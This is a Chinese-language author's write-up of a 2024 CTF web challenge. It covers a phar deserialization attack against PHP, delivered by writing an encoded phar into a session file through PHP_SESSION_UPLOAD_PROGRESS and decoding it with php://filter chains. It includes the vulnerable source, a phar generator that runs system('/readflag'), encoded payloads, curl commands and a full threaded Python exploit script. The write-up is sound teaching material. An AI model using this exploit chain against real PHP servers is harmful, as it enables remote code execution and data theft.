



n0Ob_un4er | 国城杯 2024
December 8, 2024
序
关于序言这块，本来是没有写的，现在回想起来，实在是感慨万千。我们社团出题也算是老传统了，之前是安洵杯，现在是国城杯。这道题是我出的第一道在正式比赛中使用的题目，对我具有很重大的意义。题目难度是有的，设计这道题目花费了我很大的心思，我觉得没有愧对各位热爱CTF的师傅们。
题目放出来之后我是很忐忑的，因为我不确定在别人看来这道题的难度怎样，我给了很多hint(比赛结束后有师傅反馈hint没给到点上，抱歉哈哈哈)，也在最后时刻降低了难度，即使这样，这道题也是直到比赛最后一小时才有了第一解。比赛结束后有很多师傅来找我讨论，通过这道题我认识了好多厉害的师傅!😘总之，希望各位喜欢!
正文
其实这道题的代码是可以写很简单的，甚至像One Line PHP Challenge那样一行就能搞定，但是我又觉得这样会不会太明显了，所以加了一些干扰做题思路的代码审计，现在想来确实有点用力过猛😂。
思路分析
<?php
$SECRET = `/readsecret`;
include "waf.php";
class User {
public $role;
function __construct($role) {
$this->role = $role;
}
}
class Admin{
public $code;
function __construct($code) {
$this->code = $code;
}
function __destruct() {
echo "Admin can play everything!";
eval($this->code);
}
}
function game($filename) {
if (!empty($filename)) {
if (waf($filename) && @copy($filename , "/tmp/tmp.tmp")) {
echo "Well done!";
} else {
echo "Copy failed.";
}
} else {
echo "User can play copy game.";
}
}
function set_session(){
global $SECRET;
$data = serialize(new User("user"));
$hmac = hash_hmac("sha256", $data, $SECRET);
setcookie("session-data", sprintf("%s-----%s", $data, $hmac));
}
function check_session() {
global $SECRET;
$data = $_COOKIE["session-data"];
list($data, $hmac) = explode("-----", $data, 2);
if (!isset($data, $hmac) || !is_string($data) || !is_string($hmac) || !hash_equals(hash_hmac("sha256", $data, $SECRET), $hmac)) {
die("hacker!");
}
$data = unserialize($data);
if ( $data->role === "user" ){
game($_GET["filename"]);
}else if($data->role === "admin"){
return new Admin($_GET['code']);
}
return 0;
}
if (!isset($_COOKIE["session-data"])) {
set_session();
highlight_file(__FILE__);
}else{
highlight_file(__FILE__);
check_session();
}
先来看session的逻辑，如果是role是admin的话，通过check_session()校验后可以直接实例化一个Admin类，但是这里使用了hmac-sha256签名算法，而且校验非常严格，无法读取到$SECRET，也就没有办法伪造成admin。(btw，这个$SECRET其实就是flag😜)
总所周知，copy是可以使用phar伪协议的，而且只要实例化admin类就能直接命令执行了，有经验的师傅应该可以看出这里实际的利用方式是phar反序列化。但是这里没有文件上传点，一部分师傅就有可能会卡在这里了，嘿嘿，这就是这道题最精妙的地方了。
我们需要找一个内部可控的文件来进行构造，可控文件无非临时文件，日志文件，session文件。临时文件无法知道文件名，日志文件无法知道路径(可以试着copy一下，看成不成功)，那么就只有session文件了。
php7.2中存在一个漏洞，在默认配置下，如果强制向系统上传一个文件的话，会生成一个session文件，这个文件是可以通过Cookie的PHP_SESSION_UPLOAD_PROGRESS字段写入数据的，只能是字符串格式，而且这段数据的前后还会有系统生成的垃圾数据。
那么结合之前的phar反序列化思路，不难想到可以将phar文件编码为字符串，然后写入session文件中，最后再用copy函数还原和利用。
补充说明一下waf函数的由来：
我并没有给出waf的源码，其实我给这个waf的本意不是想让你们去绕的，而是为了禁止非预期解的QAQ，我在出题的时候偶然发现了这个非预期：如果用copy函数结合stdin这个伪协议去写文件的话，是可以打通的，不过还是需要将phar文件编码。各位师傅有兴趣可以试试。

解题细节
phar转字符串
我是用的是下面这组编码方法，后来发现其实用base64编码就行
convert.base64-encode 和 convert.base64-decode
convert.iconv.utf-8.utf-16be 和 convert.iconv.utf-16be.utf-8
convert.quoted-printable-encode 和 convert.quoted-printable-decode
参考文章：
Laravel 8 Debug Mode RCE 拓展与踩坑 · Diggid's Blog
生成phar文件
<?php
highlight_file(__FILE__);
class Admin{
public $code;
}
@unlink('test.phar');
$phar=new Phar('test.phar');
$phar->startBuffering();
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$o=new Admin();
$o ->code="system('/readflag');";
$phar->setMetadata($o);
$phar->addFromString("test.txt","test");
$phar->stopBuffering();
?>
编码命令：
cat test.phar | base64 -w0 | python3 -c "import sys;print(''.join(['=' + hex(ord(i))[2:] + '=00' for i in sys.stdin.read()]).upper())"
编码结果
=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=56=00=53=00=4B=00=43=00=6B=00=37=00=49=00=44=00=38=00=2B=00=44=00=51=00=70=00=74=00=41=00=41=00=41=00=41=00=41=00=51=00=41=00=41=00=41=00=42=00=45=00=41=00=41=00=41=00=41=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=33=00=41=00=41=00=41=00=41=00=54=00=7A=00=6F=00=31=00=4F=00=69=00=4A=00=42=00=5A=00=47=00=31=00=70=00=62=00=69=00=49=00=36=00=4D=00=54=00=70=00=37=00=63=00=7A=00=6F=00=30=00=4F=00=69=00=4A=00=6A=00=62=00=32=00=52=00=6C=00=49=00=6A=00=74=00=7A=00=4F=00=6A=00=49=00=77=00=4F=00=69=00=4A=00=7A=00=65=00=58=00=4E=00=30=00=5A=00=57=00=30=00=6F=00=4A=00=79=00=39=00=79=00=5A=00=57=00=46=00=6B=00=5A=00=6D=00=78=00=68=00=5A=00=79=00=63=00=70=00=4F=00=79=00=49=00=37=00=66=00=51=00=67=00=41=00=41=00=41=00=42=00=30=00=5A=00=58=00=4E=00=30=00=4C=00=6E=00=52=00=34=00=64=00=41=00=51=00=41=00=41=00=41=00=44=00=64=00=58=00=42=00=74=00=6E=00=42=00=41=00=41=00=41=00=41=00=41=00=78=00=2B=00=66=00=39=00=69=00=32=00=41=00=51=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=48=00=52=00=6C=00=63=00=33=00=52=00=4A=00=52=00=4F=00=30=00=76=00=59=00=75=00=4B=00=35=00=35=00=4A=00=33=00=5A=00=72=00=2B=00=48=00=70=00=34=00=37=00=46=00=4B=00=68=00=6F=00=54=00=66=00=47=00=77=00=49=00=41=00=41=00=41=00=42=00=48=00=51=00=6B=00=31=00=43=00
消除垃圾数据
由于session文件生成的规则，我们写入的数据前后都是会有系统写入的垃圾数据的
curl http://106.55.190.159:8001/ -H 'Cookie: PHPSESSID=litsasuk' -F 'PHP_SESSION_UPLOAD_PROGRESS=[Your_data]' -F 'file=@/etc/passwd'

我们可以使用base64解码的特性来消除前后的字符串
前面的"upload_progress_"一共有14位,经过fuzz我们只要在后面添加两个字符"ZZ"，进行3次base64解码就能被刚好消掉。
如果使用的是我的编码方法，后面的垃圾数据就不用管了，在解码的时候自然就会消掉
编码细节
这里还有一个细节，就是如果我们要先进行3次base64解码来消去垃圾数据，那么我们编码后的phar文件就还需要连续进行3次base64编码，由于base64解码的特性，如果被解码的字符串中出现了"="就会解码失败，所以我们还要对payload填充一下位数，使之连续3次base64编码都不会出现"=",就需要满足位数为3^3的倍数
原本的payload是1392位，需要填充12位再进行连续3次base64编码
=50=00=44=00=39=00=77=00=61=00=48=00=41=00=67=00=58=00=31=00=39=00=49=00=51=00=55=00=78=00=55=00=58=00=30=00=4E=00=50=00=54=00=56=00=42=00=4A=00=54=00=45=00=56=00=53=00=4B=00=43=00=6B=00=37=00=49=00=44=00=38=00=2B=00=44=00=51=00=70=00=74=00=41=00=41=00=41=00=41=00=41=00=51=00=41=00=41=00=41=00=42=00=45=00=41=00=41=00=41=00=41=00=42=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=33=00=41=00=41=00=41=00=41=00=54=00=7A=00=6F=00=31=00=4F=00=69=00=4A=00=42=00=5A=00=47=00=31=00=70=00=62=00=69=00=49=00=36=00=4D=00=54=00=70=00=37=00=63=00=7A=00=6F=00=30=00=4F=00=69=00=4A=00=6A=00=62=00=32=00=52=00=6C=00=49=00=6A=00=74=00=7A=00=4F=00=6A=00=49=00=77=00=4F=00=69=00=4A=00=7A=00=65=00=58=00=4E=00=30=00=5A=00=57=00=30=00=6F=00=4A=00=79=00=39=00=79=00=5A=00=57=00=46=00=6B=00=5A=00=6D=00=78=00=68=00=5A=00=79=00=63=00=70=00=4F=00=79=00=49=00=37=00=66=00=51=00=67=00=41=00=41=00=41=00=42=00=30=00=5A=00=58=00=4E=00=30=00=4C=00=6E=00=52=00=34=00=64=00=41=00=51=00=41=00=41=00=41=00=44=00=64=00=58=00=42=00=74=00=6E=00=42=00=41=00=41=00=41=00=41=00=41=00=78=00=2B=00=66=00=39=00=69=00=32=00=41=00=51=00=41=00=41=00=41=00=41=00=41=00=41=00=41=00=48=00=52=00=6C=00=63=00=33=00=52=00=4A=00=52=00=4F=00=30=00=76=00=59=00=75=00=4B=00=35=00=35=00=4A=00=33=00=5A=00=72=00=2B=00=48=00=70=00=34=00=37=00=46=00=4B=00=68=00=6F=00=54=00=66=00=47=00=77=00=49=00=41=00=41=00=41=00=42=00=48=00=51=00=6B=00=31=00=43=00AAAAAAAAAAAA
写文件以及读取文件
写session文件
curl http://125.70.243.22:31718 -H 'Cookie: PHPSESSID=litsasuk' -F 'PHP_SESSION_UPLOAD_PROGRESS=ZZVUZSVmQxQlVRWGRRVkZFd1VGUkJkMUJVVFRWUVZFRjNVRlJqTTFCVVFYZFFWRmw0VUZSQmQxQlVVVFJRVkVGM1VGUlJlRkJVUVhkUVZGa3pVRlJCZDFCVVZUUlFWRUYzVUZSTmVGQlVRWGRRVkUwMVVGUkJkMUJVVVRWUVZFRjNVRlJWZUZCVVFYZFFWRlV4VUZSQmQxQlVZelJRVkVGM1VGUlZNVkJVUVhkUVZGVTBVRlJCZDFCVVRYZFFWRUYzVUZSU1JsQlVRWGRRVkZWM1VGUkJkMUJVVlRCUVZFRjNVRlJWTWxCVVFYZFFWRkY1VUZSQmQxQlVVa0pRVkVGM1VGUlZNRkJVUVhkUVZGRXhVRlJCZDFCVVZUSlFWRUYzVUZSVmVsQlVRWGRRVkZKRFVGUkJkMUJVVVhwUVZFRjNVRlJhUTFCVVFYZFFWRTB6VUZSQmQxQlVVVFZRVkVGM1VGUlJNRkJVUVhkUVZFMDBVRlJCZDFCVVNrTlFWRUYzVUZSUk1GQlVRWGRRVkZWNFVGUkJkMUJVWTNkUVZFRjNVRlJqTUZCVVFYZFFWRkY0VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSVmVGQlVRWGRRVkZGNFVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY1VUZSQmQxQlVVVEZRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNVVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY0VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSTmVsQlVRWGRRVkZGNFVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY0VUZSQmQxQlVWVEJRVkVGM1VGUmtRbEJVUVhkUVZGcEhVRlJCZDFCVVRYaFFWRUYzVUZSU1IxQlVRWGRRVkZrMVVGUkJkMUJVVWtKUVZFRjNVRlJSZVZCVVFYZFFWRlpDVUZSQmQxQlVVVE5RVkVGM1VGUk5lRkJVUVhkUVZHTjNVRlJCZDFCVVdYbFFWRUYzVUZSWk5WQlVRWGRRVkZFMVVGUkJkMUJVVFRKUVZFRjNVRlJTUlZCVVFYZFFWRlV3VUZSQmQxQlVZM2RRVkVGM1VGUk5NMUJVUVhkUVZGbDZVRlJCZDFCVVpFSlFWRUYzVUZSYVIxQlVRWGRRVkUxM1VGUkJkMUJVVWtkUVZFRjNVRlJaTlZCVVFYZFFWRkpDVUZSQmQxQlVXa0pRVkVGM1VGUlplVkJVUVhkUVZFMTVVRlJCZDFCVVZYbFFWRUYzVUZSYVJGQlVRWGRRVkZFMVVGUkJkMUJVV2tKUVZFRjNVRlJqTUZCVVFYZFFWR1JDVUZSQmQxQlVVa2RRVkVGM1VGUmFRbEJVUVhkUVZGRTFVRlJCZDFCVVl6TlFWRUYzVUZSU1IxQlVRWGRRVkZrMVVGUkJkMUJVVWtKUVZFRjNVRlJrUWxCVVFYZFFWRmt4VUZSQmQxQlVWVFJRVkVGM1VGUlNSbEJVUVhkUVZFMTNVRlJCZDFCVVZrSlFWRUYzVUZSVk0xQlVRWGRRVkUxM1VGUkJkMUJVV2tkUVZFRjNVRlJTUWxCVVFYZFFWR00xVUZSQmQxQlVUVFZRVkVGM1VGUmpOVkJVUVhkUVZGWkNVRlJCZDFCVVZUTlFWRUYzVUZSUk1sQlVRWGRRVkZwRFVGUkJkMUJVVmtKUVZFRjNVRlJhUlZCVVFYZFFWR00wVUZSQmQxQlVXVFJRVkVGM1VGUldRbEJVUVhkUVZHTTFVRlJCZDFCVVdYcFFWRUYzVUZSamQxQlVRWGRRVkZKSFVGUkJkMUJVWXpWUVZFRjNVRlJSTlZCVVFYZFFWRTB6VUZSQmQxQlVXVEpRVkVGM1VGUlZlRkJVUVhkUVZGa3pVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNFVGUkJkMUJVVVhsUVZFRjNVRlJOZDFCVVFYZFFWRlpDVUZSQmQxQlVWVFJRVkVGM1VGUlNSbEJVUVhkUVZFMTNVRlJCZDFCVVVrUlFWRUYzVUZSYVJsQlVRWGRRVkZWNVVGUkJkMUJVVFRCUVZFRjNVRlJaTUZCVVFYZFFWRkY0VUZSQmQxQlVWWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUk1GQlVRWGRRVkZrd1VGUkJkMUJVVlRSUVZFRjNVRlJSZVZCVVFYZFFWR013VUZSQmQxQlVXa1pRVkVGM1VGUlJlVkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNFVGUkJkMUJVVVhoUVZFRjNVRlJqTkZCVVFYZFFWRXBEVUZSQmQxQlVXVEpRVkVGM1VGUk5OVkJVUVhkUVZGazFVRlJCZDFCVVRYbFFWRUYzVUZSUmVGQlVRWGRRVkZWNFVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY0VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUk5GQlVRWGRRVkZWNVVGUkJkMUJVV2tSUVZFRjNVRlJaZWxCVVFYZFFWRTE2VUZSQmQxQlVWWGxRVkVGM1VGUlNRbEJVUVhkUVZGVjVVRlJCZDFCVVVrZFFWRUYzVUZSTmQxQlVRWGRRVkdNeVVGUkJkMUJVVlRWUVZFRjNVRlJqTVZCVVFYZFFWRkpEVUZSQmQxQlVUVEZRVkVGM1VGUk5NVkJVUVhkUVZGSkNVRlJCZDFCVVRYcFFWRUYzVUZSV1FsQlVRWGRRVkdONVVGUkJkMUJVU2tOUVZFRjNVRlJSTkZCVVFYZFFWR04zVUZSQmQxQlVUVEJRVkVGM1VGUk5NMUJVUVhkUVZGRXlVRlJCZDFCVVVrTlFWRUYzVUZSWk5GQlVRWGRRVkZwSFVGUkJkMUJVVlRCUVZFRjNVRlJaTWxCVVFYZFFWRkV6VUZSQmQxQlVZek5RVkVGM1VGUlJOVkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNVVGUkJkMUJVVVRSUVZFRjNVRlJWZUZCVVFYZFFWRnBEVUZSQmQxQlVUWGhRVkVGM1VGUlJlbEJVUVhkUlZVWkNVVlZHUWxGVlJrSlJWVVpD' -F 'file=@/etc/passwd'
用filter伪协议消除垃圾数据
?filename=php://filter/read=convert.base64-
decode|convert.base64-decode|convert.base64-decode|convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-
decode/resource=/tmp/sess_litsasuk
读文件触发phar反序列化
?filename=phar:///tmp/tmp.tmp/test.txt
一把梭脚本
本来打算是要条件竞争的，但是到最后1个小时没题解，可把我急坏了，包被😭😭😭，所以把条件竞争关了QAQ
import sys
from threading import Thread, Event
import requests
HOST = 'http://125.70.243.22:31303/'
sess_name = 'litsasuk'
headers = {
'Connection': 'close',
'Cookie': 'PHPSESSID=' + sess_name
}
stop_event = Event()
payload = 'VUZSVmQxQlVRWGRRVkZFd1VGUkJkMUJVVFRWUVZFRjNVRlJqTTFCVVFYZFFWRmw0VUZSQmQxQlVVVFJRVkVGM1VGUlJlRkJVUVhkUVZGa3pVRlJCZDFCVVZUUlFWRUYzVUZSTmVGQlVRWGRRVkUwMVVGUkJkMUJVVVRWUVZFRjNVRlJWZUZCVVFYZFFWRlV4VUZSQmQxQlVZelJRVkVGM1VGUlZNVkJVUVhkUVZGVTBVRlJCZDFCVVRYZFFWRUYzVUZSU1JsQlVRWGRRVkZWM1VGUkJkMUJVVlRCUVZFRjNVRlJWTWxCVVFYZFFWRkY1VUZSQmQxQlVVa0pRVkVGM1VGUlZNRkJVUVhkUVZGRXhVRlJCZDFCVVZUSlFWRUYzVUZSVmVsQlVRWGRRVkZKRFVGUkJkMUJVVVhwUVZFRjNVRlJhUTFCVVFYZFFWRTB6VUZSQmQxQlVVVFZRVkVGM1VGUlJNRkJVUVhkUVZFMDBVRlJCZDFCVVNrTlFWRUYzVUZSUk1GQlVRWGRRVkZWNFVGUkJkMUJVWTNkUVZFRjNVRlJqTUZCVVFYZFFWRkY0VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSVmVGQlVRWGRRVkZGNFVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY1VUZSQmQxQlVVVEZRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNVVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY0VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSTmVsQlVRWGRRVkZGNFVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY0VUZSQmQxQlVWVEJRVkVGM1VGUmtRbEJVUVhkUVZGcEhVRlJCZDFCVVRYaFFWRUYzVUZSU1IxQlVRWGRRVkZrMVVGUkJkMUJVVWtKUVZFRjNVRlJSZVZCVVFYZFFWRlpDVUZSQmQxQlVVVE5RVkVGM1VGUk5lRkJVUVhkUVZHTjNVRlJCZDFCVVdYbFFWRUYzVUZSWk5WQlVRWGRRVkZFMVVGUkJkMUJVVFRKUVZFRjNVRlJTUlZCVVFYZFFWRlV3VUZSQmQxQlVZM2RRVkVGM1VGUk5NMUJVUVhkUVZGbDZVRlJCZDFCVVpFSlFWRUYzVUZSYVIxQlVRWGRRVkUxM1VGUkJkMUJVVWtkUVZFRjNVRlJaTlZCVVFYZFFWRkpDVUZSQmQxQlVXa0pRVkVGM1VGUlplVkJVUVhkUVZFMTVVRlJCZDFCVVZYbFFWRUYzVUZSYVJGQlVRWGRRVkZFMVVGUkJkMUJVV2tKUVZFRjNVRlJqTUZCVVFYZFFWR1JDVUZSQmQxQlVVa2RRVkVGM1VGUmFRbEJVUVhkUVZGRTFVRlJCZDFCVVl6TlFWRUYzVUZSU1IxQlVRWGRRVkZrMVVGUkJkMUJVVWtKUVZFRjNVRlJrUWxCVVFYZFFWRmt4VUZSQmQxQlVWVFJRVkVGM1VGUlNSbEJVUVhkUVZFMTNVRlJCZDFCVVZrSlFWRUYzVUZSVk0xQlVRWGRRVkUxM1VGUkJkMUJVV2tkUVZFRjNVRlJTUWxCVVFYZFFWR00xVUZSQmQxQlVUVFZRVkVGM1VGUmpOVkJVUVhkUVZGWkNVRlJCZDFCVVZUTlFWRUYzVUZSUk1sQlVRWGRRVkZwRFVGUkJkMUJVVmtKUVZFRjNVRlJhUlZCVVFYZFFWR00wVUZSQmQxQlVXVFJRVkVGM1VGUldRbEJVUVhkUVZHTTFVRlJCZDFCVVdYcFFWRUYzVUZSamQxQlVRWGRRVkZKSFVGUkJkMUJVWXpWUVZFRjNVRlJSTlZCVVFYZFFWRTB6VUZSQmQxQlVXVEpRVkVGM1VGUlZlRkJVUVhkUVZGa3pVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNFVGUkJkMUJVVVhsUVZFRjNVRlJOZDFCVVFYZFFWRlpDVUZSQmQxQlVWVFJRVkVGM1VGUlNSbEJVUVhkUVZFMTNVRlJCZDFCVVVrUlFWRUYzVUZSYVJsQlVRWGRRVkZWNVVGUkJkMUJVVFRCUVZFRjNVRlJaTUZCVVFYZFFWRkY0VUZSQmQxQlVWWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUk1GQlVRWGRRVkZrd1VGUkJkMUJVVlRSUVZFRjNVRlJSZVZCVVFYZFFWR013VUZSQmQxQlVXa1pRVkVGM1VGUlJlVkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNFVGUkJkMUJVVVhoUVZFRjNVRlJqTkZCVVFYZFFWRXBEVUZSQmQxQlVXVEpRVkVGM1VGUk5OVkJVUVhkUVZGazFVRlJCZDFCVVRYbFFWRUYzVUZSUmVGQlVRWGRRVkZWNFVGUkJkMUJVVVhoUVZFRjNVRlJSZUZCVVFYZFFWRkY0VUZSQmQxQlVVWGhRVkVGM1VGUlJlRkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUk5GQlVRWGRRVkZWNVVGUkJkMUJVV2tSUVZFRjNVRlJaZWxCVVFYZFFWRTE2VUZSQmQxQlVWWGxRVkVGM1VGUlNRbEJVUVhkUVZGVjVVRlJCZDFCVVVrZFFWRUYzVUZSTmQxQlVRWGRRVkdNeVVGUkJkMUJVVlRWUVZFRjNVRlJqTVZCVVFYZFFWRkpEVUZSQmQxQlVUVEZRVkVGM1VGUk5NVkJVUVhkUVZGSkNVRlJCZDFCVVRYcFFWRUYzVUZSV1FsQlVRWGRRVkdONVVGUkJkMUJVU2tOUVZFRjNVRlJSTkZCVVFYZFFWR04zVUZSQmQxQlVUVEJRVkVGM1VGUk5NMUJVUVhkUVZGRXlVRlJCZDFCVVVrTlFWRUYzVUZSWk5GQlVRWGRRVkZwSFVGUkJkMUJVVlRCUVZFRjNVRlJaTWxCVVFYZFFWRkV6VUZSQmQxQlVZek5RVkVGM1VGUlJOVkJVUVhkUVZGRjRVRlJCZDFCVVVYaFFWRUYzVUZSUmVGQlVRWGRRVkZGNVVGUkJkMUJVVVRSUVZFRjNVRlJWZUZCVVFYZFFWRnBEVUZSQmQxQlVUWGhRVkVGM1VGUlJlbEJVUVhkUlZVWkNVVlZHUWxGVlJrSlJWVVpD'
response = requests.get(HOST, headers=headers)
cookies = response.cookies
def runner1():
data = {
'PHP_SESSION_UPLOAD_PROGRESS': 'ZZ' + payload
}
print("Exploding...")
while 1:
fp = open('/etc/passwd', 'rb')
r = requests.post(HOST, files={'f': fp}, data=data, headers=headers)
fp.close()
def runner2():
file = '/tmp/sess_' + sess_name
filename = 'php://filter/read=convert.base64-decode|convert.base64-decode|convert.base64-decode|convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=%s' % file
# print filename
while 1:
url = '%s?filename=%s' % (HOST, filename)
r = requests.get(url, cookies=cookies)
c = r.content
def runner3():
filename = 'phar:///tmp/tmp.tmp/test.txt'
while True:
url = f'{HOST}?filename={filename}'
r = requests.get(url, cookies=cookies)
content = r.text
if "D0g3" in content:
start_index = content.index("D0g3")
output = content[start_index:]
print(output)
sys.exit(0)
threads = []
t1 = Thread(target=runner1)
t2 = Thread(target=runner2)
t3 = Thread(target=runner3)
threads.append(t1)
threads.append(t2)
threads.append(t3)
t1.start()
t2.start()
t3.start()
for t in threads:
t.join()

参考文章
https://blog.orange.tw/posts/2018-10-hitcon-ctf-2018-one-line-php-challenge/
Laravel 8 Debug Mode RCE 拓展与踩坑 · Diggid's Blog
结尾
这道题的题目描述是:
Please take me back to the golden age of PHP😭.
或许这些漏洞早已退出了历史的舞台，我们再也回不到phar反序列化问世时的那个夜晚。
但是，那些看似"过时"的思路和Trick，也许正是一把能带领我们回到那个独属于PHP的黄金年代的钥匙。